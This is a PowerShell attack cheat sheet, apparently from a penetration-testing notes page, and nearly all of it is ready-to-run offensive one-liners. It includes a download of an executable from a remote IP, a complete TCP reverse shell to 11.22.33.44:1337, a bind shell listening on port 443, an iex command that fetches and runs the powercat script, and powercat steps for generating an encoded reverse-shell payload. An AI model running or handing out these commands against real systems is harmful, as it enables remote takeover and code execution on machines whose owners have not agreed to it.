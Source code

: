 Powershell

Download file:
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.22.33.44/wget.exe','C:\Users\offsec\Desktop\wget.exe')"

Reverse shell:
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('11.22.33.44',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

Bind shell:
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"

Load a remote powercat script:
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

Generate encoded payload (here a reverse shell):
powercat -c 11.22.33.44 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
powershell -E <encoded payload>


